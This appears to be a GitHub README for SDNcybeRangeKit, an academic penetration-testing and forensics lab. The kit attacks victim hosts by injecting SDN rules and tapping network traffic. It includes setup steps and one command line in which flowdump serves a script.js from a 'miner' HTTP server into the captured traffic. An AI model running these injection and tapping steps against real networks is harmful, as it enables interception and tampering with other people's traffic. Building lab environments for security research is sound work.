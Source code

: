 # SDNcybeRangeKit

A penetration testing and digital forensics environment 

**Warning: this [PRIVATE] project is for academic/research purposes only.**

A blog post about this project can be read here:  http://www.ivanletteri.it/2019/02/10/sdncrkit/

![SDNcyberRangeKit]( https://www.ivanletteri.it/2019/02/10/sdncrkit/master/sdncrkit-logo-small.png "SDNcybeRangeKit")

## Concept
- Performs a SDN scenario attacks to all selected victims
- Injects SDN rules 
- Tapping the network
- All the devices victims connected to the Lan network, will be monitored for the SDNcybeRangeMonitor


## Use
- install.sh
```
bash install.sh
```
- edit hosts.txt with one IP per line
- edit controller.py, line 30, with the RyuControlleMiner httpserver IP:
```py
os.system("~/.local/bin/flowdump -s 'dump.py http://10.0.2.20:5600/script.js' -T")
```
- execute sdn-cyberange-kit.py
```
python3 sdn-cyberange-kit.py ipgateway
```

![network](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/IvanLetteri/SDNcybeRangeKit/blob/master/virtualbox_scenario_instructions.md



![demo](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-demo-cutted.gif "demo")
